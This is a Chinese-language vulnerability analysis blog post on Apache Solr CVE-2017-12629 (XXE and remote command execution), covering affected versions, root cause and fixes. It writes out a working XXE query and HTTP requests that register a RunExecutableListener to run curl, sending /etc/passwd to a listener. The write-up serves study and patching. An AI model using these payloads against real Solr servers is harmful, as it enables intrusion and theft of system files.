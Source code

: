 ```yaml
---
layout: post
title:  Apache Solr XML外部实体扩展和命令执行漏洞(CVE-2017-12629)漏洞分析
date: 2017-10-27
categories: 漏洞分析
tags:  java solr
---
```


* content
{:toc}


### 0x00 事件描述

Apache-Solr是一个企业级搜索服务器，对外提供类似于Web-service接口，基于Lucene开发。

Apache Lucene/Solr团队在2017年10月12日发布了0day攻击预警(CVE-2017-12629)该漏洞可导致信息泄露和远程命令执行。官方更新了7.1版本来修复此漏洞。而且某些RedHat产品使用了相关漏洞组件，可能受到此漏洞影响[参考1]。

经过分析验证，确认该漏洞确实存在，有关漏洞攻击脚本已经在网络中公开[参考2]，请相关用户尽快处理.









### 0x01 事件影响面
注:部分信息来自[参考1]和[参考3]

#### 影响面

该攻击事件可能影响到使用了Apache-Solr企业级搜索服务器和使用lucene相关组件的用户。

#### 影响版本

Apache-Solr 小于7.1版本都有可能受到rce攻击影响，xxe的影响版本在5.1-7.0.1 

|Platform |	Package | 	State |
|---------|:---------:|---------:|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene 	|Affected|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene5 	|Affected|
|Red Hat JBoss EAP 7 	|lucene 	|Affected|
|Red Hat JBoss Data Grid 7| 	lucene |	Affected|
|Red Hat Enterprise Linux 6|	lucene |	Will not fix|



### 0x02 漏洞信息

该CVE存在两个漏洞，Lucene的XML解析器在5.5版本才被导入[参考4]，在文档内允许文档类型定义和外部实体，可以造成XXE攻击；Solr的配置中有一个API:add-listener，通过这个API可以创建一个RunExecutableListener实例，导致远程命令执行，这个API只在solr中出现，而不是Lucene。官方在更新的7.1版本中移除了造成命令执行漏洞的RunExecutableListener模块，对造成XXE漏洞的XML解析器进行了修复

#### XML外部实体扩展漏洞

solr的查询流程从SolrDispatchFilter的dofilter开始，在Solr里面，使用QParse来处理查询解析，在查询语句中可以构造type=xmlparse就会使solr调用QparserPlugin的子类xmlQParsePlugin来对查询语句进行处理，造成xxe漏洞
	
slor服务器启动cloud实例


	solr start -c

创建集合

	http://localhost:8983/solr/admin/collections?action=CREATE&name=test&numShards=2&maxShardsPerNode=2

执行命令查询传入xml查询子句，可以通过监听本机4444端口收到http请求

	http://localhost:8983/solr/test/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/test"><a></a>'}

调用栈如图所示,调用xmlparse解析器，查询子句引用外部实体
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture1.PNG)

最后在xmlQParsePlugin实例中调用第三方xml处理库javax.xml.parsers.DocumentBuilder和javax.xml.parsers.DocumentBuilderFactory解析xml，在没有对DTD，Entity做足够的安全处理下造成xxe漏洞

#### 命令执行漏洞

先通过向collection的config添加监听类RunExecutableListener，再通过向collection中添加数据来触发监听类执行命令，执行payload，造成任意命令执行

发起请求给集合添加或更新RunExecutableListener类

	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "update-listener" : {
	   "event":"postCommit",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}

如果add报错可以使用update

初始化一个RunExecutableListener实例
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture2.PNG)

提交数据即可触发命令执行

	POST /solr/test/update HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: text/xml 
	Content-Length: 516
	
	<add>
	  <doc>
	    <field name="authors">SuperX</field>
	  </doc>
	</add>



在未授权用户无法直接访问向Solr服务器Config的API时通过构造xxe和RCE组合payload[参考2]既可以实现远程代码执行，并做一个简单的代码执行验证，虽然返回报错，但是可以看到命令已经执行
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_picture3.PNG)

#### 漏洞修复

1. 修复xml解析器

Java对于xxe修复一般通过禁用外部实体解析来完成。
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_xxe_7_0.PNG)

通过对比可以看到，添加了```dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)```

查看官网描述当```XMLConstants.FEATURE_SECURE_PROCESSING```是true的话the implementation will limit XML processing to conform to implementation limits. Examples include enity expansion limits and XML Schema constructs that would consume large amounts of resources. If XML processing is limited for security reasons, it will be reported via a call to the registered ErrorHandler.fatalError(SAXParseException exception)，对xml处理的时候进行限制处理，例如限制 实体扩展和xml造成dos情况，如果处理过程中触发了限制会报告给SAXParseException.就是说对实体扩展和dos，xxe攻击做了限制

![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/solr_xxe_7_1.PNG)

2. 修复任意命令执行

直接删掉了RunExecutableListener类，避免了命令执行

### 0x03 修复方案

1. 升级到7.1最新版本
2. 使用参数-Ddisable.configEdit=true来运行Solr实例
3. 经过实践发现，对solr未授权访问进行控制，效果更实际

### 0x04 时间线

2017-10-12 事件披露

2017-10-21 完成漏洞分析

### 0x05 参考链接

1. http://mail-archives.us.apache.org/mod_mbox/www-announce/201710.mbox/%3C018601d343b3$53868c50$fa93a4f0$@apache.org%3E
2. https://www.exploit-db.com/exploits/43009/
3. https://access.redhat.com/security/cve/cve-2017-12629
4. http://lucene.apache.org/solr/5_5_0/solr-core/org/apache/solr/search/QParserPlugin.html

### 0x06 补充

看到创宇报告，遗漏newSearcher也可以直接触发命令执行

如果已经有listener监听器，可以使用新的name或者直接update-listener进行覆盖，本来是准备写成部门预警通告，结果不用发了，有点小遗憾，就上传到自己博客做成漏洞分析报告吧。


	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "add-listener" : {
	   "event":"newSearcher",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}






